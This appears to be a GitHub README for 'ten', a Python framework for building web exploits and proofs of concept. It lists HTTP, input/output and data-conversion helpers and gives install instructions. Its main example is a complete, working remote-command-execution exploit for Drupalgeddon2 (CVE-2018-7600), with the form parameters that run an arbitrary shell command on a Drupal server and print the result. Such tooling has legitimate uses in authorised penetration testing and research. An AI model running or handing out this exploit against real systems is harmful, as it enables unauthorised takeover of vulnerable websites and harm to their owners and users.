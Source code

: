 # ten

A small web exploit framework. I got tired of writing standard code over and over again,
so I made this. Makes code more concise, clearer, faster to write. Might be useful to you.

It helps with HTTP interactions, handling user input, providing clear output, handling files, and running shell commands.

Useful to build POCs, and convert them into full, documented exploits in a blink.

# Documentation

Documentation is available here: [https://whirlpoolllll.github.io/ten/](https://whirlpoolllll.github.io/ten/).

It includes tutorials, quickstart guides, and the Python documentation.

# Installation

```bash
$ pip install ten
```

# Features

* Input/output
    * Arguments to the main function are automatically mapped to `argparse`
        * They can hold a default value, get documented, etc.
    * Output is clear and readable
* HTTP
    * Improves the standard `requests` API
    * Parse HTTP responses easily (regex, CSS selectors, forms)
    * Turn BURP on and off in a blink
    * Concurrency
    * Lots more.
* Data conversion
    * Transform data: base64, hashing, query string, CSV, JSON, ...
    * Available as a tool: `tf`
* ...

# Example

Functional, fully documented Drupalgeddon2 exploit:

```python
#!/usr/bin/env python3

from ten import *


@entry
@arg("url", "URL of the Drupal website to exploit")
@arg("command", "Command to run on the server. Defaults to `id`")
def main(url, command="id"):
    """Exploit for Drupalgeddon2 (CVE-2018-7600)."""

    session = ScopedSession(url)
    response = session.post(
        url,
        params={
            "q": "user/password",
            "name[#post_render][]": "passthru",
            "name[#markup]": command,
            "name[#type]": "markup",
        },
        data={"form_id": "user_pass", "_triggering_element_name": "name"},
    )
    try:
        form = response.form(id="user_pass")
    except FormNotFoundError:
        failure("Unable to find form in response")
    
    build_id = form["form_build_id"]
    response = session.post(
        url,
        params={
            "q": f"file/ajax/name/#value/{build_id}"
        },
        data={"form_build_id": build_id},
    )
    result = response.re.search(r"^(.*)\[{", flags=re.S)
    
    assume(result, "Unable to find command result in response")

    msg_success("Exploit done")
    msg_info("Command result:")

    msg_print(result.group(1))


main()
```

